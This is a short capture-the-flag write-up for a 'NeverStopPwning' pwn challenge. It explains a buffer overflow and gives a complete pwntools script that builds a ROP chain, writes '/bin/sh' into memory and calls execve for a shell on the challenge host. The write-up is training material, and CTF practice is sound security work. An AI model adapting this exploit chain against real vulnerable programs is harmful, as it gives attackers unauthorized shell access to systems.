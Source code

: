 # NeverStopPwning
> Author: 堇姬Naup

## Description
Basic Pwn
It have Buffer overflow, and it have enough gadget can do execve.

Let
- rax = 0x3b
- rdi = /bin/sh address
- rsi = 0
- rdx = 0
- and call syscall

You will get shell.

## exploit
```py
from pwn import *

r=process("./chal")
r=remote("23.146.248.196", 41001)
'''
0x000000000044fec7 : pop rax ; ret
0x0000000000401ecf : pop rdi ; ret
0x0000000000409f3e : pop rsi ; ret
0x0000000000482e82 : pop rdx ; ret
0x0000000000401c84 : syscall
0x0000000000433603 : mov qword ptr [rdi], rdx ; ret
'''

binsh = 0x4c7a00
pop_rax = 0x44fec7
pop_rdi = 0x401ecf
pop_rsi = 0x409f3e
pop_rdx = 0x482e82
syscall = 0x401c84
mov_rdx_to_rdi = 0x433603

payload1 =  p64(pop_rdx) + b'/bin/sh\x00'.ljust(8,b'\x00') 
payload1 += p64(pop_rdi) + p64(binsh)
payload1 += p64(mov_rdx_to_rdi)

payload2 =  p64(pop_rax) + p64(0x3b)
payload2 += p64(pop_rdi) + p64(binsh)
payload2 += p64(pop_rsi) + p64(0)
payload2 += p64(pop_rdx) + p64(0)
payload2 += p64(syscall)

r.sendline(b'a'*0x10+ payload1 + payload2)

r.interactive()
```
